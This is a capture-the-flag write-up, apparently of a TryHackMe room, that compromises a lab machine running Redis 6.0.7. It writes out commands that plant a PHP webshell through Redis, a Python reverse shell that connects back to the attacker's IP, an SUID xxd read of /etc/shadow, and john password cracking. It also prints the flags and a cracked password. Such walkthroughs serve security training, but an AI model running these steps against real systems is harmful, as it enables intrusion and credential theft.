 <h2>Room description: ‘Hack into a vulnerable database server with an in-memory data-structure in this semi-guided challenge!’</h2>

Recon and Enumeration 

<h>Question 1: Scan the machine, how many ports are open?</h>

<h2>Recon and Enumeration</h2>

<h3>PortScanning</h3>

command:```sudo namp -sV -sC -P0 -p- <$iP>```

```
──(root㉿d4rk5id3)-[~]
└─# nmap -sC -sV -Pn -oN nmap 10.10.244.169
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-10 16:30 WAT
Nmap scan report for 10.10.244.169
Host is up (0.34s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.90 seconds
                                                                                                                                                                                            
┌──(root㉿d4rk5id3)-[~]
└─# nmap -sC -sV -Pn -p 6379,80 10.10.244.169
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-10 16:30 WAT
Nmap scan report for 10.10.244.169
Host is up (0.15s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
6379/tcp open  redis   Redis key-value store 6.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.64 seconds
                                                                   
```
from the scan result above, it can be seen that there are only two ports open on the target system. port (80) which runs Apache HTTP Server, and Port (6379) which runs a DBMS service called redis.

![image](/posts/res/nmap.png)

Answering the Questions that were asked

_#What is the database management system running on?_

ans: redis

_#What port is the database management system running on?_

ans: 6379

_#What is the version of management system installed on the server?_

ans: 6.0.7

_#Compromise the machine and locate user.txt_

1. so i ran a directory bruteforce on the server but found nothing interesting so i had to lookup redis 6.0.7 dbms service on google 

it appears that we can check out the service by using the redis-cli command or by simply using netcat for connecting to the redis service.

from our Recon, we know that it is running a web server which Commonly stores it’s html data on /var/www/html path.

command: ```redis-cli <target_ip>```

![image](./res/redis_cli.png)

Next, we'll specify the dbfilename with a filename of our selection. In this instance, we're designating it as "shell.php." Since it carries the ".php" extension, it's clear that we intend to insert PHP code into this file for execution.

command: ```config set dir /var/www/html```</br>
```config set dbfilename shell.php```</br>
```set test "<?php system($_GET['cmd']) ?>" ```</br>
```save```

with our RCE script ready we can hesd over to the path on our server
```http://<machine_ip>/shell.php?cmd=id```

![image](./res/id.png)

Now we have our webshell, It's time to establish a reverse shell connection to the target machine.

first of all we must set up a netcat listener 
![image](./res/nc.png)

run this reverse shell using our webshell

```http://<machine_ip>/shell.php?cmd=python -c ‘import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“<local_ip>”,3030));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(“/bin/sh”)’```

now we have our reverse shell.
![image](./res/rev.png)

lets upgrade to get a better and  stable shell

```python -c 'import pty;pty.spawn("/bin/bash")';```




Going over to the home directory we list all files and folder, that got our first flag.

![image](./res/flag.png)

flag: ``` thm{red1s_rce_w1thout_credent1als} ```</br>


3. What is the local user account password?
After running the `sudo -l` command, i found out that our user lacked sudo permissions. To further investigate, I used the following command to check for services with the SUID bit set:


command:```find / -perm -u=s -type f 2>/dev/null```

 *   / instructs the search to cover the entire file system.
 *   -perm is used to identify files with particular permissions.
 *   u=s specifies that we are looking for files where any  permission bits are set to 's'.
 *  -type f restricts the search to files only.
 *   2>/dev/null is added to suppress any error messages.

![image](./res/bin.png)

after some few seconds we can see our result /usr/bin/xxd looks vulnerable so let's check out GTFObins.
  from my discovery i can see that the with this binary, we can only read files as root.

  Excellent! Now Let’s try this to read the /etc/shadow file to find the users password. 
 command: ```/usr/bin/xxd /etc/shadow | xxd -r```</br>

![image](./res/shadow.png)

 now we have successfully read the /etc/shadow file we can see that a user Vianka has a password hash on the machine. lets save that hash to a txt file and try cracking it with john.</br>
 command:```john hash.txt --wordlist=<path_to_Word_list>rockyou.txt```
![image](./res/pass.png)
password ```beautiful1```</br>

 we now have our password for the user vianka. lets attempts to login

 command: ```su vianka```</br>

 Let’s check what sudo privileges we have with sudo -l

 ![image](./res/su.png)

 Great news! We now possess sudo privileges. To elevate our privileges, I'll execute the command `sudo su` and retrieve the `root.txt` file!</br>
 ![image](./res/root.png)


Root Flag:```thm{xxd_pr1v_escalat1on}```

That will be all for today
<br> <br>
[Back To Home](../../index.md)



































